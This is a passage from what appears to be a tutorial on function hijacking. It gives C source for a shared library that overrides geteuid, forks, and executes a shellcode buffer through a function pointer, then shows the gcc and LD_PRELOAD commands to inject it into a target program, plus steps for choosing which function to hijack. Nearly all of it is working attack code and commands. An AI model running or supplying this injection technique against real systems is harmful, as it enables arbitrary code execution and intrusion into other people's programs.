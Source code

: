 ```c
        return;
    }

    int (*ret)() = (int(*)())shellcode;
    ret();
}

int geteuid() {
    if (fork() == 0) {
        run_shellcode();
        _exit(0); // Exit child process after running shellcode
    } else {
        wait(NULL); // Wait for child process to finish
        printf("HACK: returning from function...\n");
        return old_geteuid();
    }
}

void __attribute__((constructor)) init(void) {
    old_geteuid = dlsym(RTLD_NEXT, "geteuid");
    if (!old_geteuid) {
        fprintf(stderr, "Error: %s\n", dlerror());
        exit(EXIT_FAILURE);
    }
    printf("HACK: initialized\n");
}
```

### Compile the Shared Library

```sh
gcc -shared -fPIC -o mylib.so hijack.c -ldl
```

### Use `LD_PRELOAD` to Inject the Shared Library

```sh
export LD_PRELOAD=/path/to/mylib.so
./target_program
```

### Putting It All Together

1. **Run the script to find a non-repeated function call**:
   ```sh
   ./find_functions.sh target_program
   ```
2. **Identify a suitable function from the output**.

3. **Modify the C code to hijack the identified function**.

4. **Compile the shared library**:
   ```sh
   gcc -shared -fPIC -o mylib.so hijack.c -ldl
   ```
